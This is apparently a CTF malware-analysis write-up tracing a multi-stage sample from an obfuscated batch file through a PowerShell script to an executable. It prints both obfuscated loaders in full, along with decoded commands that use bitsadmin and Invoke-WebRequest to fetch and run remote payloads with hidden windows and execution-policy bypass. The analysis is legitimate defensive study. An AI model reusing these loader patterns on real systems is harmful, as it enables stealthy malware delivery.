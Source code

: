 ```yaml
---
layout: post
title: "Multi Stage"
date: 2025-04-21 11:00:00 +0800
categories: [writeup ,malware analysis]
tags: [writeup, malware analysis]
image: https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png
---
```


# 🐞 Malware analysis

Analysis on malware that operates through multiple phases.

Multi-stage malware is a sophisticated type of malicious software designed to execute in multiple phases, often evading detection by traditional security measures. Unlike single-stage malware, which executes its payload immediately, multi-stage malware follows a structured execution path, usually involving an initial dropper, loaders, and a final payload.

In the challenge I was given the malicious program zip file named multistage.zip. I extracted it in a controlled environment in my kali linux vmware sandbox. After extracting it there is a multistage file. Going through the file i have located the possible malicious program file which is called stacysmom.bat which is a windows batch file.


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption><em>the multi stage folder after extraction</em></figcaption>
</figure>


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*hWaufeSZDLSlPpFTQrUMAQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>the malware file in .bat extension</em></figcaption>
</figure>

A `.bat` file is a simple script file used in the Microsoft Windows operating system to automate tasks or run commands. When you double-click a `.bat` file or execute it , the `cmd.exe` reads the commands within the file and executes them sequentially.

``` bat
@echo off &setlocal
set eitg=set
set gopy=for
REM ZGlzdHJhY3QK
set hetY="tokens=* delims=" && set GhEt=in && set SADFCweFDCWQE=/f
REM VGhlc2UK
set VCWErqw=" " && set FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K###### && set POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!! && set WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@ && set VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!! && set WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o= && set NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@ && set BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!! && set RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTEU@@@@@@@gaGl@@@@@kZ@@@@@@GVOI@@@@@@@@C1@@@@@@@@F@@@@@@@@e@@@@@@@@@E@@@@@@@@@V@@@@@@j@@@@@@@@@d@@@@@@@V@@@@@@@@R@@@@@@p@@@@@@@@@@b05Q@@@@@@@@@@b2@@@@@@xpY3@@@@@kgQn@@@@@lw@@@@@@@@@QX@@@@@NzI@@@@@@@@C@@@@@@1Db01@@@@@@@@@@tQU@@@@@5EC@@@@@g==
REM Y29tbWVudHMK
set WERvtreVRETqwefewr=Zj########Q4OTI#w######ZTU######zN2#####Q#####5#####Y#########zRl####MG##U######3#########OTU#########5####Nz##FkYTM2##########NDY0ND##########Q######xOT######B#lZWNk###Mj######R#######k########N####z###E#####5MzAzYmV##j######ZG##Q########5Y##T####E#####zY########mZh######NTg#####xMAo#########= && set ERTHbrteQE=VGh@@@@@@@@@@pcyB@@@@@@@k@@@@@@@@b2Vzbn@@@@@@QgZG@@@@@@@@8@@@@@@gYW5@@@@@@@@5dG@@@@@@@@h@@@@@@@@@p@@@@@@bmcg@@@@@@YW5@@@@@@@@@@k@@@@@IH@@@@@@@@@l@@@@@@@@vdSd@@@@@yZ@@@@@SB@@@@@@@@@3Y@@@@@@@@@@XN0aW@@@@@@5nI@@@@@@@@Hl@@@@@@@@@vdX@@@@@@@Igd@@@@@@@@Gl@@@@@tZ@@@@@@Qo=@@@@@=@@@@@@@@@@ && set OIYuhrTRE=cG!!!!!!!!9!!!!!!!!!3!!!!!!!!ZX!!!!!!!!!Jz!!!!!!!a!!!!!!!!GVsb!!!!!!!!!!C!!!!!!!5le!!!!!!G!!!!!UK && set QWERVTrgbyRTGTREW=QnV#########5I#########G1lI##########G######Eg#####bW9######0aG########Vy#########I#########G########Z#####1Y2#########t#########p########bmcgZ##########2lyYW######ZmZQ##########o=######### && set QWErfqwfecQWEDWEX=%VerBrtEwFCWe:!=%
REM REM eW91Cg==
set QWEcwgrtHWTFWEQaxwe=%WeTTyhRRvfer:@=% && set RTYUvERQCXergtewsr=%WERvtreVRETqwefewr:#=% && set OYUIThbgrwtWCVRE=%OIYuhrTRE:!=%
REM YXJlCg==
set NETRYverEWERCREWweq=%RTYbrtgVEWRqqwer:@=%
set DwqeqwefWEFqwer=%WERtggbvtrWERV:!=%
REM ZGVzaWduZWQK
set ERTYbrtWCRWEfverwfcwer=%NTYerFVERHetERfewef:@=%
set SDFweFCWEwCWERwFWE=%ERTYbrtWCRWEfverwfcwer%%DwqeqwefWEFqwer%%NETRYverEWERCREWweq%%QWEcwgrtHWTFWEQaxwe%
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
REM dG8K
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"


```
 

## **What windows tool used by to download the second stage payload?**

 I opened the `.bat` file using a text editor called Mousepad and observed that the code was heavily obfuscated, containing a mixture of random-looking symbols and meaningless strings, making it difficult to interpret at first glance. 
 
 Additionally, parts of the code were encoded in Base64, as indicated by the format and structure of the encoded strings. I noticed the use of the `&&` symbol, which in batch files is used to chain commands.
 
 So, I separated the commands accordingly to better analyze them. To confirm that the code was Base64-encoded, I extracted a portion of it and decoded it.

<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*C24azyzRynbYQmpYMDrdoA.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>portion of the code decoded</em></figcaption>
</figure>

Using the cyberchef website i decoded a part from the text using the from base 64 option and remove non alphabet characters and got the decode text as shown on the picture. As it is confirmed the text is encoded as base64 i decoded it and got the decoded text.

``` bat
set VCWErqw=" " && 
set FWEfvrewFWRVEwer=this is kinda of pointless&& 
set POUINTYEBRTwertf= Flying saucers often cross my mind when I'm high I'm trippin' &&
set WeTTyhRRvfer=stacy.ps1&& 
set VerBrtEwFCWe=https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 &&
set WERtggbvtrWERV=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String && 
set NTYerFVERHetERfewef= bitsadmin.exe /transfer &&
set BRTwercvWQEFRWE=2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json &&
set RTYbrtgVEWRqqwer= -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND

```

From the decoded text we now have a link to the second stage of the malware.A suspicious PowerShell script was identified leveraging obfuscated variables, Base64 decoding, and the bitsadmin utility to stealthily download and execute a remote payload (`stacy.ps1`) from GitHub, while employing execution policy bypasses and hidden window execution—indicative of potential malware loader behavior.

**Answer: bitsadmin**

## **Find the link to the third stage of the malware ?**

Upon reviewing the linked PowerShell script `stacy.ps1`, it was found to be heavily obfuscated, using randomized variables, Base64 decoding, and encoded shellcode to reconstruct and execute a malicious binary `stacy.exe`. The script downloads the payload via Invoke-WebRequest, extracts it, and launches it using execution policy bypass techniques—indicative of malware dropper behavior.

``` powershell
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

The PowerShell script was hidden and difficult to understand. To uncover its purpose, I used CyberChef, a tool that helps decode obfuscated data.

First, I removed unnecessary `\x90` characters from the script. These characters didn’t serve any purpose and were only there to confuse the analysis. I also removed the extra equal signs `=` that were part of the Base64 encoding, as they weren’t needed.

Next, I reversed the string because the code was written backward to make it harder to read. After that, I decoded the string from Base64, which revealed the original URL and other information.

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*Go0EzfT11WEuPoQHDFzmaQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>using cyberchef</em></figcaption>
</figure>

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*9bjway9wj3AvoPUCh3WWcg.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>code decoded</em></figcaption>
</figure>

It then extracted the contents and ran an executable file called stacy.exe. The script used PowerShell to run stacy.exe while bypassing security settings to ensure it could execute without restrictions.

In the end, the script was designed to download and run a potentially harmful file.

**Answer: https://github.com/Internet20/filesamples/raw/master/misc/stacysmom.zip**

## **What is the URL the final stage malware trying to access?**

unzip the zip file and open the read me .txt

``` 
This is a publicity stunt done by the Malcore team. 

None of the files in this folder are malicious (if they are it wasn't me), they are just intended to look that way.

Hashes of files in this folder:
- a33a361b45aa3a7b6515ff7771af52632697e30ce7e63aa3a271f4f05a5ea28d  ./.fi/ch_1.lnk
- 6f567d8eea0e83dadea8d14068d40d9445151e24358d20b977e9b7c64d03927e  ./.fi/ed_9.lnk
- 05b3222358004e9704320764f7515283b8d2b09f0248f931c057d23a255a566c  ./.fi/ff_3.lnk
- 041afe89d68bb845ffde722354c13261ddb1bb46776fec0efa180a95fbc994b8  ./autorun.ini
- a3f4edfb57534da9eca838ad64cc73b1a661b3349368bcc6d5097edfd9a602a3  ./cliCk ME fOR inSTrucTioNs.pdf.lnk
- 7ff8e302fec63de5a35b03ef09aff6f5b722de23131b0f82da8f4203efac9d20  ./just_m_logo.ico
- 3aebd76e2877d35949eb21f27eeaad514b21810291628454a92f86de7264b225  ./stacy.exe

Of course always remain cautions when executing unknown files out of a USB you found on the ground at a hacking conference.
```

From this message there was suppose to an .fi directory but i the folder show none. So run this `ls -la ` to show an hidden dirctory and file

``` 
─$ ls -la
total 12772
drwxrwxr-x 4 kali kali    4096 May 16 22:17  .
drwxrwxr-x 3 kali kali    4096 Mar 21 00:32  ..
-rw-rw-r-- 1 kali kali      68 Jul 17  2024  autorun.ini
-rw-rw-r-- 1 kali kali    2673 Jul 17  2024 'cliCk ME fOR inSTrucTioNs.pdf.lnk'
-rw-rw-r-- 1 kali kali    1988 Mar 23 23:18  complet.bat
-rw-r--r-- 1 kali kali    2811 Mar 31 21:17  deobfuscated.bat
-rwxrwxr-x 1 kali kali     570 Mar 23 21:58  deobfuscate.sh
drwxrwxr-x 2 kali kali    4096 Mar 24 00:04  .fi
-rw-rw-r-- 1 kali kali    4286 Jul 16  2024  just_m_logo.ico
-rw-rw-r-- 1 kali kali  421931 Apr  3 22:05  output_stacy.txt
-rw-rw-r-- 1 kali kali  421931 Mar 24 01:34  output.txt
-rw-rw-r-- 1 kali kali   17542 Apr 27 23:43  pyinstxtractor.py
-rw-rw-r-- 1 kali kali     941 Jul 17  2024  README.txt
-rw-rw-r-- 1 kali kali       0 Mar 23 23:33  stacydecompile.bat
-rw-rw-r-- 1 kali kali 6147624 Jul 17  2024  stacy.exe
drwxrwxr-x 4 kali kali    4096 Apr 28 03:57  stacy.exe_extracted
-rw-rw-r-- 1 kali kali    1870 Mar 21 23:07  stacy.ps1
-rw-rw-r-- 1 kali kali    1129 Apr 19 05:52  stacyps1decode.ps1
-rw-r--r-- 1 kali kali    2647 Mar 21 22:54  stacysmom1.bat
-rw-r--r-- 1 kali kali    5646 Mar 23 21:59  stacysmom.bat
-rw-rw-r-- 1 kali kali 5988242 Mar 24 00:03  stacysmom.zip
-rw-rw-r-- 1 kali kali       0 Mar 23 23:58  stacy.zip

```
here i found the .fi directory and change the directory into it

``` 
.
├── ch_1.lnk
├── ed_9.lnk
└── ff_3.lnk

```

i cat the `ch_1.lnk` to view what is in it and found this

```
C:\Program Files\Google\Chrome\
Application"https://link.malcore.io"
(C:\Users\saman\Downloads\just_m_logo.ico
```

**Answer: https://link.malcore.io**
